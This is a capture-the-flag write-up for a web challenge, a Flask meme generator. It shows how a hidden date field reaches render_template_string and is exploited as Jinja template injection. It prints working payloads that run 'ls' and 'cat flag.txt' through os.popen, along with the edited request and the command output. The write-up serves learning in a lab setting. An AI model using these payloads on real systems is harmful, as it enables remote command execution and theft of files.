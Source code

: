 # swamp
- **Category:** web
- **Points:** 100 (1 flag)
- **Description:** was vibecoding and told chat to get me some dank meme templates with some caption injection. check it out this the future frfr
- **Flag 1:** 100 points
- **Access:** https://shrek.ctf-league.osusec.org/
- **Download:** https://chal.ctf-league.osusec.org/web/shrek/app.py

## First look
accessing the site shows a text box to enter and a "make" button

entering in a text and clicking make redirects us to a new page with a link to a different page where we can see a meme with the text we entered plasted on it

the meme is a shrek meme lol

## Inspecting the code
since we have to code of the site we can see how it works

in "app.py" we can see the following code:
```python
    return f'''
    <form method=post enctype=multipart/form-data>
      meme text: <input type=text name=text><br>
      <input type=hidden name=date value="{datetime.utcnow().isoformat()}"><br>
      <input type=submit value=make>
    </form>
    '''
```

this is the form that we see when we first access the site and this calls a post request to the server with the text we entered and the date in iso format

```python
if request.method == "POST":
        caption = request.form["text"]
...
# code for creating the meme
    with open(f"img/{filename}.txt", 'w') as f:
        f.write(date)
    return f"image available at <a href='img/{filename}'>img/{filename}</a>"
```

this is the code that handles the post request and creates the meme

so far I have not seen anywhere where we can use a template injection to execute code

but  I did see that there is a alt text for the image that is assigned the date I believe
```python 

    alt_text = "Alt text not found"
    if os.path.isfile(txt_path):
        with open(txt_path, "r") as f:
            alt_text = f.read().strip()

    image_url = f"/serve_img/{filename}.jpg"
    
    print(alt_text)

    return render_template_string(f"""
        <img src="{image_url}" alt="{alt_text}">
    """)
```

this is the code that sets the alt text for the image

it should automatically be set to the date at the time of creation

but if we use dev tools we can edit this request and change the alt text to something else that might get us remote code execution with template injection

## Exploiting the site
trying to find different template injections with jinja there was quite a few that I tried and I found one that worked

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

this request simply tries to list the files in the current directory, and it works

### Steps for exploitation
1. go to https://shrek.ctf-league.osusec.org/ 
2. open dev tools and go to the network tab
3. enter some text in the text box and click make
4. find the request that was made, should be a 200 post request and right click it and click edit and resend
5. find the date field and change it to the payload, it should be in the body of the request
    example request:
    ```
    ------geckoformboundarya8a5f0976cc639f390e995264227533e
    Content-Disposition: form-data; name="text"

    this is the image text
    ------geckoformboundarya8a5f0976cc639f390e995264227533e
    Content-Disposition: form-data; name="date"

    {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
    ------geckoformboundarya8a5f0976cc639f390e995264227533e--
    ```
6. click send and go to the response tab
7. in the response tab it will show you the path to the image
8. go to the path on the site, and view the raw source of site with ctrl+u
9. if the command you entered into the site is ls you should see a list of files in the directory
    ```html

            <img src="/serve_img/ab16fc0bd3ac2520.jpg" alt="Dockerfile
    app.py
    flag.txt
    img
    requirements.txt
    shrek.jpg
    templates
    ```
### getting the flag
now that we have remote code execution (kind of) we can get the flag

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

this will print the contents of the flag.txt file, and if we follow the steps from above but change the injection to the command above we should see the flag in the response tab

** I do not own nor did I create the content for this challenge. This is a writeup for the challenge that I solved **

